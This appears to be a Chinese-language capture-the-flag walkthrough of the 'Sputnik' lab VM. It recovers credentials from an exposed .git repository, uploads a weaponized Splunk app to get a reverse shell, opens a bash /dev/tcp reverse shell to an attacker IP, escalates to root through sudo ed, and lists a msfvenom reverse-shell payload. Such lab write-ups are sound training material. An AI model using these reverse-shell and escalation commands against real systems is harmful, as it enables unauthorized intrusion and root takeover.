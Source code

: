 VMware双击打开，nat模式运行即可！

--------------------------------------------
--------------------------------------------
1、nmap 192.168.253.0/24 -sP

Nmap scan report for 192.168.253.252
Host is up (0.00072s latency).

--------------------------------------------
--------------------------------------------
2、nmap -p- 192.168.253.252 -A

8089/tcp  open  ssl/http Splunkd httpd
55555/tcp open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-git: 
|   192.168.253.252:55555/.git/

61337/tcp open  http     Splunkd httpd
| http-robots.txt: 1 disallowed entry

打开了端口 8089、8191、55555 和 61337，端口 55555 具有关联的 IP 地址和 git 存储库的目录链接！

--------------------------------------------
--------------------------------------------
3、git库拖库

访问git：
http://192.168.253.252:55555/.git/

继续访问Logs目录并单击其中的HEAD文件：
http://192.168.253.252:55555/.git/logs/HEAD

有一个Git页面的链接，转到该链接并找到Flappy。
发现：
clone: from https://github.com/ameerpornillos/flappy.git

Git clone用于克隆文件并将其下载到系统以供进一步查看源码分析：
git clone https://github.com/ameerpornillos/flappy
cd flappy
git log   ---克隆了它并浏览了它的历史

git log -p   ---查看每一个源码的详细信息，

sputnik:ameer_says_thank_you_and_good_job

找到对应的一些账号密码信息！

--------------------------------------------
--------------------------------------------
4、Splunkd httpd 反弹shell

splunk：
Splunk 是机器数据的引擎。使用 Splunk 可收集、索引和利用所有应用程序、服务器和设备生成的快速移动型计算机数据 。 使用 Splunking 处理计算机数据，可让您在几分钟内解决问题和调查安全事件。监视您的端对端基础结构，避免服务性能降低或中断。以较低成本满足合规性要求。关联并分析跨越多个系统的复杂事件。获取新层次的运营可见性以及 IT 和业务智能。

https://baike.baidu.com/item/splunk/1679563?fr=aladdin
https://www.splunk.com/zh_cn/resources/machine-learning.html


访问：
http://192.168.253.252:61337

提示：
Splunk管理员为您提供的用户名和密码！

用户名是sputnik，密码是ameer_says_thank_you_and_god_job，输入这些就可以进入Splunk帐户！

sputnik
ameer_says_thank_you_and_good_job


谷歌搜索：
splunk reverse shell
https://github.com/TBGSecurity/splunk_shells
找到了一种使用反向和绑定 shell 来武器化 Splunk 的方法！


下载：
proxychains git clone https://github.com/TBGSecurity/splunk_shells.git

proxychains wget https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz
mv 1.2.tar.gz splunk_shells-1.2.tar.gz


点击右上角：Install app from file 
然后文件上传：splunk_shells-1.2.tar.gz   ---上传一个自定义应用程序
点击： Restart Now
成功后会提示：Restart successful - click OK to log back into Splunk
最后重新登录下：
sputnik
ameer_says_thank_you_and_good_job

登录后查看manager：
Weaponize Splunk for Pentesting and Red Teaming 	splunk_shells-1.2 
在最后一条发现部署上传成功！

点击：Permissions
勾选：All apps
点击：Save保存

文章中提示：https://www.n00py.io/2018/10/popping-shells-on-splunk/
点击左上角Apps：Search & Reporting
输入：| revshell SHELLTYPE ATTACKERIP ATTACKERPORT

本地开启：nc -vlp 8888
| revshell std 192.168.253.138 8888

成功获得反弹shell！


--------------------------------------------
--------------------------------------------
5、信息收集

python -c 'import pty;pty.spawn("/bin/bash")'
获得反弹shell后发现使用该命令无法再执行命令以及无法回显！

需要在谈一次shell：
bash -c "bash -i >& /dev/tcp/192.168.253.138/9999 0>&1"


-r-xr-xr-x 1 splunk splunk  1969904 Mar 25  2019 /opt/splunk/bin/python
-r-xr-xr-x 1 splunk splunk 49293784 Mar 25  2019 /opt/splunk/bin/splunkd

kakeru:x:1000:1000:kakeru:/home/kakeru:/bin/bash
root:x:0:0:root:/root:/bin/bash
splunk:x:1001:1001:Splunk Server:/opt/splunk:/bin/bash

drwxr-xr-x 8 root root 4096 Mar 29  2019 /var/www/html/.git


--------------------------------------------
--------------------------------------------
6、提权

id 
sudo -l 
ameer_says_thank_you_and_good_job 

User splunk may run the following commands on sputnik:
    (root) /bin/ed

https://gtfobins.github.io/#ed


sudo ed
!/bin/sh
成功获得root权限！


--------------------------------------------
--------------------------------------------
7、知识拓展


msfvenom -p cmd/unix/reverse_python lhost=192.168.1.110 lport=4444 R

Splunk初识：（斯普伦克）
https://cloud.tencent.com/developer/article/1614137



































































